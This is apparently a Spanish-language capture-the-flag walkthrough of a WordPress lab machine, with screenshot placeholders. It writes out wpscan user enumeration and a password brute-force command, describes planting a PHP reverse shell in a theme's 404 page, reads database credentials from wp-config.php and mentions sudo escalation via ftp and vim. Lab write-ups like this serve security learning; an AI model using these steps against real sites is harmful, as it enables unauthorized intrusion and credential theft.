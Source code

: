 Realizamos un escaneo de nmap
![[Pasted image 20240604112935.png|1500]]

Encontramos el puerto 80 abierto, al analizarla encontramos que es una web de wordpress, asi que vamos a analizarla mas a fondo
![[Pasted image 20240604113127.png]]

Comenzamos con ver la version con whatweb
![[Pasted image 20240604113221.png]]

Ahora realizamos un escaneo con wpscan
```Bash
wpscan --url 10.10.98.55 -e vp,u
```
![[Pasted image 20240604122245.png]]
![[Pasted image 20240604122333.png]]

Nos ha encontrado varios usuarios, verificamos que estos usuarios existen
![[Pasted image 20240604114203.png|500]]

Ahora realizaremos un ataque de fuerza bruta con wpscan
```Bash
wpscan --url http://10.10.98.55 -U hugo,philip,c0ldd -P /home/wolf/rockyou.txt
```
![[Pasted image 20240604123247.png]]
![[Pasted image 20240604124814.png]]

Nos ha encontrado la password del usuario c0ldd y ya podemos acceder al wordpress
![[Pasted image 20240604125346.png]]

Ahora generaremos una reverse shell para obtener una sesion desde nuestra maquina atacante, para generarla modificaremos el codigo php de la pagina 404 del tema twentyfifteen
https://github.com/pentestmonkey/php-reverse-shell
![[Pasted image 20240604130358.png]]

Ahora nos ponemos a la escucha con netcat
![[Pasted image 20240604130524.png]]

Una vez estamos a la escucha ejecutaremos la siguiente url en el navegador
```Bash
http://10.10.98.55/wp-content/themes/twentyfifteen/404.php
```
![[Pasted image 20240604130640.png]]

Y ya habremos obtenido la reverse shell
![[Pasted image 20240604130721.png]]

Generamos una shell interactiva y una vez obtenida accedemos al fichero `wp-config.php` para obtener las credenciales de c0ldd
```Bash
cat /var/www/html/wp-config.php
```
![[Pasted image 20240604131043.png]]

O podemos utiliar el siguiente comando para encontrarlo automaticamente
```Bash
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
```
![[Pasted image 20240604131939.png]]

Ahora accedemos al usuario c0ldd
![[Pasted image 20240604131126.png]]

Ahora buscamos la primera flag
![[Pasted image 20240604131655.png]]


Ahora buscaremos realizar una escalada de privilegios para obtener permisos sudo, primero revisamos que podemos ejecutar como sudo
![[Pasted image 20240604132124.png]]

Podemos ejecutar tres comandos con privilegios de root, usaremos las tres para obtener los privilegios

## Escalda de privilegios con FTP
![[Pasted image 20240604133114.png]]

## Escalada de privilegios con VIM
![[Pasted image 20240604133324.png]]

